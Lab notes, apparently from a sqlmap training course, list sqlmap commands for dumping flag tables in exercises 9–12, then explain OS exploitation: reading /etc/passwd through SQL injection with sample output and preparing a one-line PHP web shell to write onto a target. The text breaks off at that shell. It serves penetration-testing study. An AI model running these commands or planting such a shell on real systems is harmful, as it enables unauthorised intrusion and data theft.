 Ejercicio9
  What's the contents of table flag8? (Case #8)
    sqlmap -r Case8.txt --csrf-token=t0ken --dump --batch --level=5 --risk=3

Ejercicio10
  What's the contents of table flag9? (Case #9)
    ```sqlmap -r Case9.txt -T falg9 --dump --batch --level=5 --risk=3 --randomize=uid```

Ejercicio11
  What's the contents of table flag10? (Case #10)
    ```sqlmap -r Case10.txt -T flag10 --dump --batch --level=5 --risk=3```

Ejercicio12
   What's the contents of table flag11? (Case #11)
     https://github.com/thryb/sqlmap-tamper
     sqlmap -r Case11.txt -T flag11 --dump --batch --level=5 --risk=3 --tamper=greatest --threads=10


---

# OS Exploitation with SQLMap

## File Read/Write

SQLMap can exploit SQL Injection vulnerabilities to read and write files on the target system, provided the necessary privileges exist.

### Reading Local Files
To read a file, use the `--file-read` option. For example:

```bash
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

**Example Output:**
```plaintext
[INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y
[INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
```

View the downloaded file:

```bash
cat ~/.sqlmap/output/www.example.com/files/_etc_passwd
```

### Writing Local Files
To write files to the target server, use the `--file-write` and `--file-dest` options. For example:

Prepare a basic PHP shell:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

